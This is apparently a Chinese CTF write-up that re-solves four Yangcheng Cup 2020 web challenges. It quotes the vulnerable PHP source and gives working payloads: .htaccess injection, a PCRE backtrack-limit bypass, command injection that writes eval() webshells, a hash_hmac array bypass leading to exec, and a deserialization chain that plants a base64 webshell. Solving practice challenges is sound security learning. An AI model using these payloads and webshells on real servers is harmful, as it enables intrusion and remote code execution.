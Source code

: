 title: 羊城杯2020web复现
author: bmth
img: 'https://img-blog.csdnimg.cn/2021030421281732.png'
tags:
  - 羊城杯2020
  - CTF
categories: []
date: 2020-12-30 16:11:00
---
发现Buu平台上传了羊城杯的web题，现在复现一下
官方wp：[https://github.com/gwht/2020YCBCTF](https://github.com/gwht/2020YCBCTF)

## [羊城杯 2020]easyphp
源码如下：
```php
<?php 
    $files = scandir('./');  
    foreach($files as $file) { 
        if(is_file($file)){ 
            if ($file !== "index.php") { 
                unlink($file); 
            } 
        } 
    } 
    if(!isset($_GET['content']) || !isset($_GET['filename'])) { 
        highlight_file(__FILE__); 
        die(); 
    } 
    $content = $_GET['content']; 
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) { 
        echo "Hacker"; 
        die(); 
    } 
    $filename = $_GET['filename']; 
    if(preg_match("/[^a-z\.]/", $filename) == 1) { 
        echo "Hacker"; 
        die(); 
    } 
    $files = scandir('./');  
    foreach($files as $file) { 
        if(is_file($file)){ 
            if ($file !== "index.php") { 
                unlink($file); 
            } 
        } 
    } 
    file_put_contents($filename, $content . "\nHello, world"); 
?>
```
题目对解析的文件做了限制，只解析index.php，所以做这道题是使用.user.ini或者.hatccess去将PHP代码去包含进index.php
### 方法一
从代码的最后一行可见最后会强行拼接进来一个`"\nHello, world"`导致`.hatccess`无法解析500错误。所以使用反斜杠可以将`\n`转义为普通字符后使用#注释使得`.hatccess`能够成功解析。
绕过stristr()检测同样使用`\`作为换行直接绕过该函数的关键字检测。
```php
php_value auto_prepend_fil\ 
e .htaccess 
#<?php phpinfo();?>\ 
```
payload:
```php
?content=php_value auto_prepend_fil\%0Ae .htaccess%0A%23<?php system('cat /fla'.'g');?>\&filename=.htaccess
```
即可在index.php获取flag
![](https://img-blog.csdnimg.cn/20201230163154912.png)

### 方法二
利用PCRE回溯次数限制绕过正则
[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.freebuf.com/articles/web/190794.html)
```php
?content=php_value%20pcre.backtrack_limit%200%0aphp_value%20pcre.jit%200%0a%23\&filename=.htaccess
```
没有`preg_match`的waf后就可以通过`php://filter`伪协议写入一句话
```php
?filename=php://filter/write=convert.base64decode/resource=.htaccess&content=cGhwX3ZhbHVlIHBjcmUuYmFja3RyYWNrX2xpbWl0IDAKcGhwX3ZhbHVlIHBjcmUuaml0IDAKcGhwX3ZhbHVlIGF1dG9fYXBwZW5kX2ZpbGUgLmh0YWNjZXNzCiM8P3BocCBldmFsKCRfR0VUWzFdKTs/Plw&1=phpinfo();
```
![](https://img-blog.csdnimg.cn/20201230165332363.png)

参考：[X-NUCA‘2019 ——Ezphp复盘总结](https://www.plasf.cn/articles/d4770d39c3.html)

## [羊城杯 2020]Easyphp2
进入发现是一个文件包含
![](https://img-blog.csdnimg.cn/20201230172051396.png)
并发现一个robots.txt
![](https://img-blog.csdnimg.cn/20201230173046814.png)
使用伪协议:`?file=php://filter/convert.%6%32ase64-encode/resource=GWHT.php`
`?file=php://filter/read=convert.quoted-printable-encode/resource=GWHT.php`
解码网站：[在线Quoted-printable编码、Quoted-printable解码](http://web.chacuo.net/charsetquotedprintable)
得到一串base64加密的字符串，进行解密得到源码：
```php
<?php
ini_set('max_execution_time', 5);
if ($_COOKIE['pass'] !== getenv('PASS')) {
    setcookie('pass', 'PASS');
    die('<h2>' . '<hacker>' . '<h2>' . '<br>' . '<h1>' . '404' . '<h1>' . '<br>' . 'Sorry, only people from GWHT are allowed to access this website.' . '23333');
}
?>
<?php
if (isset($_GET["count"])) {
    $count = $_GET["count"];
    if (preg_match('/;|base64|rot13|base32|base16|<\?php|#/i', $count)) {
        die('hacker!');
    }
    echo "<h2>The Count is: " . exec('printf \'' . $count . '\' | wc -c') . "</h2>";
}
?>
```
并在check.php得到`$pass = "GWHT"`
接下来就是 `printf $count | wc -c` 执行（过滤分号执行）
**官方wp:**
```php
ls -al
ls /GWHT
1'|  ls / | tac  ||'
1'| echo "GWHTCTF" | su GWHT -c "tac /GWHT/system/of/a/down/flag.txt"  ||'
```
首先写入一句话：
`count='|echo "<?= eval(\$_POST['shell'])?>" > a.php'`
之后蚁剑连接
![](https://img-blog.csdnimg.cn/20201230190135247.png)
在/GWHT/README找到密码，进行解密得到密码：GWHTCTF
![](https://img-blog.csdnimg.cn/20201230190543765.png)
`find /GWHT -name flag*`得到flag路径，最后
`printf "GWHTCTF" | su - GWHT -c 'cat /GWHT/system/of/a/down/flag.txt'`
![](https://img-blog.csdnimg.cn/20201230191656159.png)
## [羊城杯 2020]Blackcat
做出来的为数不多的题目之一，比较简单，首先下载mp3在最后那段得到源码
![](https://img-blog.csdnimg.cn/20201231161957577.png)
```php
<?php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}

$clandestine = getenv("clandestine");

if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);


$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);

if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}

echo exec("nc".$_POST['One-ear']);
```
我们不知道`getenv("clandestine")`，发现有一个hash_hmac函数，在php手册上查看一下，发现传入数组，会返回NULL，可以使`$clandestine`可控
![](https://img-blog.csdnimg.cn/20201231162416965.png)
那么即可exec执行命令
`White-cat-monitor[]=1&One-ear=;env&Black-Cat-Sheriff=afd556602cf62addfe4132a81b2d62b9db1b6719f83e16cce13f51960f56791b`
![](https://img-blog.csdnimg.cn/20201231171022523.png)

## [羊城杯 2020]EasySer
发现存在robots.txt得到star1.php
![](https://img-blog.csdnimg.cn/20201231171710588.png)
发现是一个ssrf，查看源代码发现要使用不安全的协议，这里卡住我了
![](https://img-blog.csdnimg.cn/20201231171913794.png)
最后发现是http协议，`?path=http://127.0.0.1/ser.php`，得到源码
![](https://img-blog.csdnimg.cn/20201231172423373.png)
```php
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}
?>
```
需要绕过die()，使用base64编码或者rot13传入即可
```php
<?php
    class GWHT{
        public $hero;
        public function __construct(){
            $this->hero = new Yongen;
        }
        public function __toString(){
            if (isset($this->hero)){
                return $this->hero->read();
            }else{
                return "go away hacker";
            }
        }
    }
    class Yongen{
        public $file = "php://filter/write=convert.base64-decode/resource=flag.php";
        public $text = "aaaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";
        public function read(){
                return file_get_contents($thie->file);
        }
    }
    $flag = new GWHT();
    echo serialize($flag);
?>
```
![](https://img-blog.csdnimg.cn/20210203124646171.png)
得到exp，然后又卡住了，这么传参呢？？？最后发现是存在get传参数c来进行反序列化
`/star1.php/?path=http://127.0.0.1/ser.php&c=O:4:"GWHT":1:{s:4:"hero";O:6:"Yongen":2:{s:4:"file";s:58:"php://filter/write=convert.base64-decode/resource=flag.php";s:4:"text";s:43:"aaaPD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";}}`
![](https://img-blog.csdnimg.cn/20210203125639332.png)